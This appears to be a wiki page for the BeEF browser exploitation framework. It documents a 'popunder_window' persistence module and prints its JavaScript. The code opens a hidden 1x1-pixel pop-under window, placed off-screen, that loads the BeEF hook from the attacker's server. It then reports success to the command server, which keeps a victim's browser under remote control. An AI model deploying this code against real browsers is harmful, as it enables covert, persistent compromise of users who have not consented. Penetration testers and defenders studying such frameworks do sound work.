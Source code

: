 ##Summary

* **Description**: This module creates a new discrete pop under window with the BeEF hook included. Another browser node will be added to the hooked browser tree.
* **Authors**: ethicalhack3r
* **Browsers**: All (User is notified)
* **Parameters** : No parameters needed
* [Code](https://github.com/beefproject/beef/tree/master/modules/persistence/popunder_window)

##Internal Working

Basic and efficient :

```javascript
    var result = "Pop-under window successfully created!";
    window.open('http://' + beef.net.host + ':' + beef.net.port + '/demos/plain.html','popunder','toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=1,height=1,left='+screen.width+',top='+screen.height+'').blur();
    window.focus();	
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+result);
```

##Feedback

* It works